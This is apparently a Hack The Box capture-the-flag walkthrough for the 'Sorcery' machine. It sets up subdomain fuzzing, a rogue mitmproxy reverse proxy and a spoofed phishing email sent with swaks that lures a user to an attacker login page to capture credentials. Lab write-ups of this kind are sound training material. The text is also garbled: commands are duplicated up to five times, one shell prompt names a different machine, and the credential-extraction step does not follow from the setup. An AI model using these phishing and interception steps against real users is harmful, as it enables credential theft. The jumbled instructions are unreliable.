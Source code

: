 ```yaml
---
layout: default
title: Sorcery
platform: Hack The Box
---
```


Add the IPs to `/etc/hosts`:

<pre><code><span style="color:#ffffff">10.10.11.73 sorcery.htb git.sorcery.htb
10.10.14.40 pwn.sorcery.htb</span></code></pre>

Visit [https://sorcery.htb](https://sorcery.htb) and enumerate the repository:

<pre><code><span style="color:#00ff00">git</span><span style="color:#ffffff"> clone https://git.sorcery.htb/nicole_sullivan/infrastructure.git</span></code></pre>

Enumerate virtual hosts with `ffuf`:

<pre><code><span style="color:#00ff00">ffuf</span><span style="color:#ffffff"> -w /usr/share/payloads/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u https://sorcery.htb -H </span><span style="color:#ffd700">"Host: FUZZ.sorcery.htb"</span><span style="color:#ffffff"> -mc 200</span></code></pre>
<pre><code><span style="color:#00ff00">ffuf</span><span style="color:#ffffff"> -w /usr/share/payloads/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u https://sorcery.htb -H </span><span style="color:#ffff00">"Host: FUZZ.sorcery.htb"</span><span style="color:#ffffff"> -mc 200</span></code></pre>



This reveals `git.sorcery.htb`; add it to `/etc/hosts` and create an account on the site, then log in.

Capture traffic with a rogue host and `mitmproxy`:

<pre><code><span style="color:#00ff00">sudo</span><span style="color:#ffffff"> </span><span style="color:#00ff00">mitmproxy</span><span style="color:#ffffff"> --mode reverse:https://git.sorcery.htb --certs pwn.sorcery.htb.pem -k -p 443</span></code></pre>

Send a phishing email to capture credentials:

<pre><code><span style="color:#00ff00">proxychains4</span><span style="color:#ffffff"> -f /etc/proxychains4.conf </span><span style="color:#00ff00">swaks</span><span style="color:#ffffff"> --to tom_summers@sorcery.htb --from nicole_sullivan@sorcery.htb --server 172.19.0.10 --port 1025 --data </span><span style="color:#ffd700">"Subject: Security Alert\n\nPlease verify your account at https://pwn.sorcery.htb/user/login"</span></code></pre>
<pre><code><span style="color:#00ff00">proxychains4</span><span style="color:#ffffff"> -f /etc/proxychains4.conf </span><span style="color:#00ff00">swaks</span><span style="color:#ffffff"> --to tom_summers@sorcery.htb --from nicole_sullivan@sorcery.htb --server 172.19.0.10 --port 1025 --data </span><span style="color:#ffff00">"Subject: Security Alert\n\nPlease verify your account at https://pwn.sorcery.htb/user/login"</span></code></pre>
<pre><code><span style="color:#00ff00">proxychains4</span><span style="color:#ffffff"> -f /etc/proxychains4.conf </span><span style="color:#00ff00">swaks</span><span style="color:#ffffff"> --to tom_summers@sorcery.htb --from nicole_sullivan@sorcery.htb --server 172.19.0.10 --port 1025 --data </span><span style="color:#ffd700">"Subject: Security Alert\n\nPlease verify your account at https://pwn.sorcery.htb/user/login"</span></code></pre>
<pre><code><span style="color:#00ff00">proxychains4</span><span style="color:#ffffff"> -f /etc/proxychains4.conf </span><span style="color:#00ff00">swaks</span><span style="color:#ffffff"> --to tom_summers@sorcery.htb --from nicole_sullivan@sorcery.htb --server 172.19.0.10 --port 1025 --data </span><span style="color:#ffff00">"Subject: Security Alert\n\nPlease verify your account at https://pwn.sorcery.htb/user/login"</span></code></pre>
<pre><code><span style="color:#00ffff">└──╼[👾]~/machine/guardian $</span> <span style="color:#ffff00">proxychains4</span><span style="color:#ffffff"> -f /etc/proxychains4.conf swaks --to tom_summers@sorcery.htb --from nicole_sullivan@sorcery.htb --server 172.19.0.10 --port 1025 --data "Subject: Security Alert\n\nPlease verify your account at https://pwn.sorcery.htb/user/login"</span></code></pre>

Extract the captured credentials from the proxied session:

<pre><code><span style="color:#00ff00">magick</span><span style="color:#ffffff"> xwd:Xvfb_screen0 credentials.png
</span><span style="color:#00ff00">open</span><span style="color:#ffffff"> credentials.png</span></code></pre>

*Screenshots omitted.*
